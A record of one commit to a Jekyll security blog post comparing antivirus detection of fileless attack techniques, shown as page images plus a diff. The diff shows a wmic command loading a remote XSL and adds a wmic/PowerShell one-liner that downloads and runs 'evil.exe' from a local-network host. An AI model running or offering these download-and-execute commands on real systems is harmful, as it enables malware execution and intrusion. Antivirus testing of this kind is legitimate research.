

Before and after one commit to spiritedwolf/fareedfauzi.github.io, a Jekyll site: the page built from _posts/2020-04-08-AV-Fileless-Comparison.md, in a window 1280 px wide and 900 px high, scrolled down 2664 px. Shown: the whole window, without its empty margins (0-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update 2020-04-08-AV-Fileless-Comparison.md

````diff
--- a/_posts/2020-04-08-AV-Fileless-Comparison.md
+++ b/_posts/2020-04-08-AV-Fileless-Comparison.md
@@ -106,6 +106,9 @@ Wmic
 ```
 wmic os get /FORMAT:"http://192.168.189.131:9996/pMeV8.xsl"
 ```
+```
+wmic process call create "powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'" "
+```
 
 ## Others
 
````
